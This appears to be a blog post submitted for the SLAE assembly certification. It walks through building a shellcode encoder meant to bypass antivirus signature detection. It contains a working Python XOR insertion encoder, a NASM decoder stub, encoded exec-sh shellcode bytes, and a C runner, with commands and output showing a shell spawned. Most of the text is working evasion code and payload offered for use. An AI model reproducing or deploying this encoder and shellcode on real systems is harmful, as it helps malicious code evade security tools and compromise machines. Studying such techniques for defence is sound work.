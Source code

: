 
# Custom encoder for bypassing signature based detection

Malware detection techniques has improved a lot over the years. Today companies are investing in machine learning methods for detecting malware, which sounds pretty cool if you ask me. However, there is one method that has been used since the first anti-virus software, which is signature based detection.

When disassembling a program you can analyze the assembly instructions in order to understand the program from the lowest level. It's also possible from the assembly code to identify a set of unique instructions that identifies a specific program. These unique instructions form the signature. The instructions can be anything that identifies a specific and unique behaviour in the program. An example could be a decryption routine that identifies a decryption stub used for decrypting shellcode.

How do we bypass signature detections? Well, we change the signature. You either do this manually or you write an encoder which takes shellcode as input and outputs an encoded shellcode, which as zero known signatures for it. In this article, I will present a very easy and trivial encoding scheme for hiding from AVs :)

## The Algorithm

The scheme I have chosen is a simple insertion encoder with XOR twist. Given a piece of shellcode, the encoder will generate a random value K<sub>n</sub> between 1-255 for each shellcode byte S<sub>n</sub>. Each random value will be XORed with with each shellcode byte, like so: K<sub>1</sub> ^ S<sub>1</sub> = R<sub>1</sub>. The original shellcode will be modified to include the random value as a prefix for the now encoded shellcode byte. The final shellcode can be seen as:

```
[K1][R1][K2][R2][K3][R3]...[KN][RN]
```

Even though it is a trivial obfuscation technique, it has some drawbacks:

- It will double the shellcode length 
- Once the shellcode has been decoded, a bunch of garbage data will exist following the shellcode. This means that if your shellcode does not return, the garbage data will be executed which leads to a segfault.

However, for demonstrating how bypassing signature detection can look like, this method will suffice.

## The Encoder

I have chosen to write the encoder in Python because it's very easy to implement these kinds of scripts in it.

```python
import sys
import random

def encode(shellcode):
    """
    shellcode: string

    returns: string
    """
    shellcode_output = ""
    shellcode_list = []
    for i in shellcode.split("\\")[1:]:
        xor_key = random.randint(1,254)
        hex_key = hex(xor_key)
        byte = int(i.replace("x", "0x"), 16)
        shellcode_list.append(hex_key)
        shellcode_list.append(hex(xor_key ^ byte))

    return ",".join(shellcode_list)

def decode(encoded_shellcode):
    """decode()
    encoded_shellcode: string

    returns: string
    """
    shellcode_list = encoded_shellcode.split(",")
    it = iter(shellcode_list)
    decoded_shellcode = []
    for x in it:
        decoded_shellcode.append(hex(int(x, 16) ^ int(next(it), 16)))
    return ",".join(decoded_shellcode)

def main(shellcode):
    """main()
    shellcode: string
    """
    orginal_shellcode = r"{}".format(shellcode)
    new_shellcode = encode(orginal_shellcode)
    print("[+] Your encoded shellcode: ")
    print(new_shellcode)
    print("\n[+] Decoded shellcode:")
    decoded_shellcode = decode(new_shellcode)
    print(decoded_shellcode)
    assert decoded_shellcode.replace("0x","\\x").replace(",","") == orginal_shellcode.replace("\\x0", "\\x")


if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python3 wrapper.py <shellcode>")
        sys.exit(0)

    if len(sys.argv) == 2:
        main(sys.argv[1])

```

To use the program, simply input your shellcode and receive the encoded version:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ python3 wrapper.py "\xfc\xbb\x1b\x91\xcd\xc8\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x2a\x43\x9f\xa0\x22\x4c\x53\x59\xd2\xbd\xbc\xfb\x4b\x4b\x21\xca\x42\x7a\x66\x9d\x5f\xb0\xe6\xde\x5f\x4a\xe7\xde"
[+] Your encoded shellcode:
0x77,0x8b,0x4a,0xf1,0xdb,0xc0,0x5,0x94,0xe7,0x2a,0x43,0x8b,0x93,0x78,0x73,0x7f,0x38,0x66,0xe5,0xb3,0x14,0x25,0x2d,0x33,0x6b,0xc6,0xc5,0xc4,0x56,0x95,0x8d,0x8,0x2f,0xef,0xd,0x78,0x9f,0x68,0x7a,0xb9,0xd7,0x3f,0xf5,0x1a,0xba,0x45,0x2,0xfd,0x93,0x6c,0xe3,0xc9,0xee,0xad,0x93,0xc,0xb5,0x15,0xe3,0xc1,0xe,0x42,0xbd,0xee,0xf8,0xa1,0xaf,0x7d,0x65,0xd8,0x24,0x98,0x86,0x7d,0xb1,0xfa,0xf8,0xb3,0x96,0xb7,0x2a,0xe0,0x27,0x65,0x69,0x13,0x3a,0x5c,0x55,0xc8,0x1,0x5e,0x59,0xe9,0x7a,0x9c,0xd7,0x9,0xb2,0xed,0xc5,0x8f,0xd4,0x33,0xfa,0x24

[+] Decoded shellcode:
0xfc,0xbb,0x1b,0x91,0xcd,0xc8,0xeb,0xc,0x5e,0x56,0x31,0x1e,0xad,0x1,0xc3,0x85,0xc0,0x75,0xf7,0xc3,0xe8,0xef,0xff,0xff,0xff,0x2a,0x43,0x9f,0xa0,0x22,0x4c,0x53,0x59,0xd2,0xbd,0xbc,0xfb,0x4b,0x4b,0x21,0xca,0x42,0x7a,0x66,0x9d,0x5f,0xb0,0xe6,0xde,0x5f,0x4a,0xe7,0xde
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$
```

The shellcode used in the example above is a simple `exec-sh` shellcode which will drop into an `sh` shell.

## Writing the decoder stub

It's time to write the decoder stub. The following is a simple program for looping through the shellcode, XORing bytes, reconstructing the original shellcode.

```asm
;-------------------------------------
;
; Author: dubs3c
;
; Purpose:
; Insertion Encoder, hide from AV :)
;
;-------------------------------------

global _start

section .text
_start:
    jmp short call_shellcode        ; jmp-call-pop method

decoder:
    pop esi                         ; Get the address of EncodedShellcode
    lea edi, [esi + 1]              ; edi points to the next byte
    xor eax, eax                    ; zero out register
    xor ebx, ebx                    ; zero out register
    xor edx, edx                    ; zero out register
    xor ecx, ecx                    ; zero out register

decode:
    mov bl, byte [esi + eax]        ; Get the byte at esi + eax
    xor bl, 0xaa                    ; XOR with 0xaa to check if we are at the end of the shellcode
    jz short EncodedShellcode       ; If we are at the end, we are done, jump to shellcode
    mov dl, byte [esi + eax]        ; Get the byte at esi + eax
    mov bl, byte [esi + eax + 1]    ; Get the byte at esi + eax + 1
    xor dl, bl                      ; XOR to get orignal shellcode byte
    mov byte [esi + ecx], dl        ; Overwrite EncodedShellcode at byte esi + ecx with the result
    add al, 2                       ; Add 2 to eax to jump to the next pair of bytes
    inc ecx                         ; increment ecx which byte to overwrite in EncodedShellcode
    jmp short decode                ; loop back to decode

call_shellcode:
    call decoder
    EncodedShellcode: db 0x1,0xfd,0xa2,0x19,0x60,0x7b,0x7d,0xec,0xac,0x61,0xac,0x64,0x31,0xda,0x2b,0x27,0xb1,0xef,0xd,0x5b,0x66,0x57,0xa5,0xbb,0xc7,0x6a,0xac,0xad,0x41,0x82,0x7a,0xff,0x5,0xc5,0xf4,0x81,0xf1,0x6,0x99,0x5a,0x54,0xbc,0xac,0x43,0x28,0xd7,0x4,0xfb,0x1b,0xe4,0x11,0x3b,0x35,0x76,0xdc,0x43,0x57,0xf7,0x4f,0x6d,0xe1,0xad,0xd7,0x84,0x6c,0x35,0x62,0xb0,0x7b,0xc6,0x7f,0xc3,0x80,0x7b,0x1f,0x54,0x45,0xe,0xa9,0x88,0x97,0x5d,0x84,0xc6,0xe9,0x93,0x6c,0xa,0x6f,0xf2,0x7a,0x25,0xe0,0x50,0x88,0x6e,0x3b,0xe5,0x56,0x9,0x6f,0x25,0xae,0x49,0xe3,0x3d,0xaa,0xaa
```

The program can be assembled with nasm:

```bash
nasm -f elf32 -o build/ass4.o ass4.nasm
ld -z execstack -N -o build/ass4 build/ass4.o
```

Because I have specified the `-N` option, the code section is now writable and we can run the executable.
```bash
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ ./build/ass4
$ whoami
dubs3c
$
```

We can also extract the shellcode and use e.g. in a stager:
```bash
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ objdump -d ./build/ass4|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x25\x5e\x8d\x7e\x01\x31\xc0\x31\xdb\x31\xd2\x31\xc9\x8a\x1c\x06\x80\xf3\xaa\x74\x16\x8a\x14\x06\x8a\x5c\x06\x01\x30\xda\x88\x14\x0e\x04\x02\x41\xeb\xe7\xe8\xd6\xff\xff\xff\x01\xfd\xa2\x19\x60\x7b\x7d\xec\xac\x61\xac\x64\x31\xda\x2b\x27\xb1\xef\x0d\x5b\x66\x57\xa5\xbb\xc7\x6a\xac\xad\x41\x82\x7a\xff\x05\xc5\xf4\x81\xf1\x06\x99\x5a\x54\xbc\xac\x43\x28\xd7\x04\xfb\x1b\xe4\x11\x3b\x35\x76\xdc\x43\x57\xf7\x4f\x6d\xe1\xad\xd7\x84\x6c\x35\x62\xb0\x7b\xc6\x7f\xc3\x80\x7b\x1f\x54\x45\x0e\xa9\x88\x97\x5d\x84\xc6\xe9\x93\x6c\x0a\x6f\xf2\x7a\x25\xe0\x50\x88\x6e\x3b\xe5\x56\x09\x6f\x25\xae\x49\xe3\x3d\xaa\xaa"
```

The shellcode could be embedded in a somple C program that will execute the decoder program, containing our `exec-sh` shellcode.

```c
#include<stdio.h>
#include<string.h>


unsigned char shellcode[] = "\xeb\x25\x5e\x8d\x7e\x01\x31\xc0\x31\xdb\x31\xd2\x31\xc9\x8a\x1c\x06\x80\xf3\xaa\x74\x16\x8a\x14\x06\x8a\x5c\x06\x01\x30\xda\x88\x14\x0e\x04\x02\x41\xeb\xe7\xe8\xd6\xff\xff\xff\x01\xfd\xa2\x19\x60\x7b\x7d\xec\xac\x61\xac\x64\x31\xda\x2b\x27\xb1\xef\x0d\x5b\x66\x57\xa5\xbb\xc7\x6a\xac\xad\x41\x82\x7a\xff\x05\xc5\xf4\x81\xf1\x06\x99\x5a\x54\xbc\xac\x43\x28\xd7\x04\xfb\x1b\xe4\x11\x3b\x35\x76\xdc\x43\x57\xf7\x4f\x6d\xe1\xad\xd7\x84\x6c\x35\x62\xb0\x7b\xc6\x7f\xc3\x80\x7b\x1f\x54\x45\x0e\xa9\x88\x97\x5d\x84\xc6\xe9\x93\x6c\x0a\x6f\xf2\x7a\x25\xe0\x50\x88\x6e\x3b\xe5\x56\x09\x6f\x25\xae\x49\xe3\x3d\xaa\xaa"; 

main()
{
        printf("Shellcode length:  %d\n", strlen(shellcode));
        int (*ret)() = (int(*)())shellcode;
        ret();
}
```

The program can be compiled like this:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ gcc -fno-stack-protector -z execstack shellcode.c -o build/shellcode
dubs3c@slae:~/SLAE/EXAM/github/assignment_4$ ./build/shellcode
Shellcode length:  152
$ whoami
dubs3c
$
```

That's it, happy hacking :)

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490

